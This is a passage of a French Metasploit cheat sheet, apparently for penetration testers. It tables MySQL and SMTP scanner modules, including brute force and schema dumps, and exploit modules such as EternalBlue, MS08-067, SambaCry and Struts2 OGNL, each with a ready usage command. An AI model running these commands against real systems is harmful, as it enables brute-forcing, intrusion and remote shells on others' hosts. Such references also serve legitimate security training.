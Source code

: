 ### MySQL (3306)
| Module | Description | Usage |
|--------|-------------|-------|
| `auxiliary/scanner/mysql/mysql_version` | Version MySQL | `set RHOSTS x.x.x.x; run` |
| `auxiliary/scanner/mysql/mysql_login` | Brute force MySQL | `set RHOSTS x.x.x.x; set USERNAME root; set PASS_FILE pass.txt; run` |
| `auxiliary/admin/mysql/mysql_sql` | Exécution SQL | `set RHOSTS x.x.x.x; set USERNAME root; set PASSWORD pass; set SQL "SHOW DATABASES"; run` |
| `auxiliary/scanner/mysql/mysql_schemadump` | Dump du schéma | `set RHOSTS x.x.x.x; set USERNAME root; set PASSWORD pass; run` |

### SMTP (25, 587)
| Module | Description | Usage |
|--------|-------------|-------|
| `auxiliary/scanner/smtp/smtp_version` | Version SMTP | `set RHOSTS x.x.x.x; run` |
| `auxiliary/scanner/smtp/smtp_enum` | Énumération SMTP | `set RHOSTS x.x.x.x; set USER_FILE users.txt; run` |
| `auxiliary/scanner/smtp/smtp_relay` | Test de relay SMTP | `set RHOSTS x.x.x.x; run` |

---

## ⚔️ 7. Modules d'exploitation essentiels

### Windows SMB Exploits
| Module | CVE | Cible | Usage |
|--------|-----|-------|-------|
| `exploit/windows/smb/ms17_010_eternalblue` | CVE-2017-0144 | Win 7/8/10/2008/2012/2016 | `set RHOSTS x.x.x.x; set LHOST y.y.y.y; exploit` |
| `exploit/windows/smb/ms08_067_netapi` | CVE-2008-4250 | Win XP/2003/Vista/2008 | `set RHOSTS x.x.x.x; set LHOST y.y.y.y; exploit` |
| `exploit/windows/smb/ms09_050_smb2_negotiate_func_index` | CVE-2009-3103 | Win Vista/7/2008 | `set RHOSTS x.x.x.x; set LHOST y.y.y.y; exploit` |

### Linux Exploits
| Module | CVE | Description | Usage |
|--------|-----|-------------|-------|
| `exploit/multi/samba/usermap_script` | CVE-2007-2447 | Samba 3.0.20 < 3.0.25rc3 | `set RHOSTS x.x.x.x; set LHOST y.y.y.y; exploit` |
| `exploit/linux/samba/is_known_pipename` | CVE-2017-7494 | Samba 3.5.0 < 4.6.4 | `set RHOSTS x.x.x.x; set LHOST y.y.y.y; exploit` |

### Web Application Exploits
| Module | Description | Usage |
|--------|-------------|-------|
| `exploit/multi/http/struts2_content_type_ognl` | Apache Struts2 OGNL | `set RHOSTS x.x.x.x; set LHOST y.y.y.y; exploit` |
| `exploit/windows/http/rejetto_hfs_exec` | Rejetto HFS Remote Command Execution | `set RHOSTS x.x.x.x; set LHOST y.y.y.y; exploit` |

---
